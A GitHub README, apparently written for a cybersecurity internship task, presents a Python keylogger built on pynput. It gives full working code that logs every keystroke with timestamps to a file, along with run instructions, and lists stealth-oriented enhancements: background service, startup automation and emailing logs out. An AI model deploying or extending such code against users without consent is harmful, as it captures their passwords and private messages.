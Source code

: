 # Basic Keylogger

A simple educational keylogger built in Python using the pynput library. This project demonstrates how keyloggers work and is intended for educational purposes only.

## Overview

This project creates a basic keylogger that:
- Records all keystrokes on the system
- Logs them with timestamps to a text file
- Continues running until the Escape key is pressed
- Works on Kali Linux (and other Linux distributions)

## Disclaimer

**This software is for educational purposes only.** Using keyloggers without proper authorization is:
- Potentially illegal
- Unethical
- A violation of privacy

Always ensure you have explicit permission before monitoring any system or user.

## Prerequisites

- Kali Linux (or another Linux distribution)
- Python 3
- Administrative privileges (for installation)

## Installation Steps

### 1. Install the required Python package

Since Kali Linux uses an externally managed environment, we used the apt package manager instead of pip:

```bash
sudo apt install python3-pynput
```

### 2. Create a project directory

```bash
mkdir ~/keylogger_project
cd ~/keylogger_project
```

### 3. Create the keylogger script

Create a file named `keylogger.py` with the following code:

```python
from pynput.keyboard import Key, Listener
import logging
import time
import os

# Set up the logging configuration
log_dir = os.path.join(os.path.expanduser('~'), "keylogger_project")
if not os.path.exists(log_dir):
    os.makedirs(log_dir)

# Create log file with timestamp
log_file = os.path.join(log_dir, f"keylog_{time.strftime('%Y%m%d-%H%M%S')}.txt")

# Configure the logging
logging.basicConfig(
    filename=log_file,
    level=logging.INFO,
    format='%(asctime)s: %(message)s'
)

print(f"Keylogger started. Logging to {log_file}")
print("Press Esc key to stop the keylogger")

def on_press(key):
    try:
        # Log alphanumeric keys
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        # Log special keys
        logging.info(f"Special key pressed: {key}")

def on_release(key):
    logging.info(f"Key released: {key}")
    
    # Stop the keylogger if Esc is pressed
    if key == Key.esc:
        print("Keylogger stopped")
        return False

# Start the listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Usage

### Run the keylogger

```bash
python3 keylogger.py
```
![Alt text](https://github.com/AtejiEmmanuel/PRODIGY_CS_Tasks/blob/main/PRODIGY_CS_03/screenshots/task%203a.png?raw=true)
### Stop the keylogger

Press the **Esc** key to stop the keylogger properly. 

> Note: Using Ctrl+C will cause a KeyboardInterrupt and the program will not exit cleanly.

### View logged keystrokes

```bash
cat ~/keylogger_project/keylog_*.txt
```

This will display all captured keystrokes with their timestamps.
![Alt text](https://github.com/AtejiEmmanuel/PRODIGY_CS_Tasks/blob/main/PRODIGY_CS_03/screenshots/task%203b.png?raw=true)
## How It Works

1. **Listener Setup**: The script uses pynput's Listener to monitor keyboard events.
2. **Event Handlers**: 
   - `on_press()`: Logs when a key is pressed
   - `on_release()`: Logs when a key is released and checks for the Esc key to stop the program
3. **Logging**: All events are saved to a timestamped log file with detailed information

## Potential Enhancements

For legitimate use cases, this basic keylogger could be enhanced with:

- Background operation (running as a service)
- Startup automation
- Email notifications
- Log file encryption
- Advanced filtering options
- GUI for configuration

## Troubleshooting

### Common Issues:

1. **Permission Errors**: Ensure you have the necessary permissions to write to the log directory.
2. **Module Not Found**: If you get a "No module named 'pynput'" error, make sure you installed the package correctly.
3. **X Server Access**: For GUI applications, ensure the script has access to the X server.

## Resources

- [pynput Documentation](https://pynput.readthedocs.io/)
- [Python Logging Documentation](https://docs.python.org/3/library/logging.html)

